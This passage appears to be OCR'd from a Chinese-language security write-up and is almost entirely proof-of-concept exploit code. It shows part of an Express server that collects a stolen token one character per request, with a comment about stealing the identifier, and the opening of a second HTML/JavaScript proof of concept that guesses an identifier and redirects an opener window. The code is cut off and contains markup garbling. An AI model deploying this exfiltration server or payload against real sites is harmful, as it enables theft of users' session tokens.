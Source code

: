 ```
    `}` else `{`
      setTimeout(() =&gt; `{`
        handle(req, res)
      `}`, handlerDelay)
    `}`
  `}`

  handle(req, res)
`}`)

app.get('/:char', (req, res) =&gt; `{`
  // already start stealing identifier
  if (req.params.char.length &gt; 1) `{`
    res.end()
    return
  `}`
  console.log('char received', req.params.char)
  if (data.loopStarted) `{`
    data.token += req.params.char
    console.log('token:', data.token)
    data.canSendBack = true

    res.status(500)
    res.end()
    return 
  `}`

  // first round
  data.count++
  if (data.count === 36) `{`
    console.log('initial image loaded, start loop')
    data.count = 0
    data.loopStarted = true
    data.canStartLoop = true
  `}`
  res.status(500)
  res.end()
`}`)

app.listen(5555, () =&gt; `{`
  console.log('5555')
`}`)
```

另一个POC：

```
&lt;!DOCTYPE html&gt;
&lt;html&gt;
  &lt;head&gt;
    &lt;link rel="icon" href="data:;base64,iVBORw0KGgo=" /&gt;
  &lt;/head&gt;
  &lt;body&gt;
    &lt;script&gt;
      let currentIdentifier = "1";

      function getIdentifier() `{`
        return currentIdentifier;
      `}`

      async function setIdentifier(identifier) `{`
        console.log("CHANGE GUESS CALLED", identifier);
        if (identifier == currentIdentifier) return;
        checkWindow.location = `http://localhost:3000/opener.html?not`;
```